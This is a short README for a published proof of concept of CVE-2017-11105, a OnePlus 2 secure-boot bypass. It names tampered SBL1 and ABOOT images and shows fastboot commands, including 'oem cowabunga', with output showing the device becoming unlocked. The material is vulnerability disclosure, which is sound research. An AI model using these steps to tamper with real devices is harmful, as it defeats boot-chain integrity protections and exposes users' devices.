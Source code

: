 ## PoC for CVE-2017-11105: OnePlus 2 Lack of SBL1 Validation Broken Secure Boot ##

By Roee Hay / Aleph Research


`sbl1-3.5.8-tampered.mbn`: Tampered SBL1 image that does not validate the rest of the chain.

`emmc_appsboot-3.5.8-tampered.mbn`: Tampered ABOOT image that includes a new command `oem cowabunga`, that temporarily unlocks the device.

Flashing these will give you some pizza:

```
$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: true
(bootloader)    Device unlocked: false
(bootloader)    Device is_verified: false

$ fastboot oem cowabunga
...
FAILED (remote: pizza)
finished. total time: 0.020s

$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: false
(bootloader)    Device unlocked: true
(bootloader)    Device is_verified: false
```

Verified on OxygenOS 3.6.0.

Advisory and PoC details can be found [here](https://alephsecurity.com/vulns/aleph-2017026)

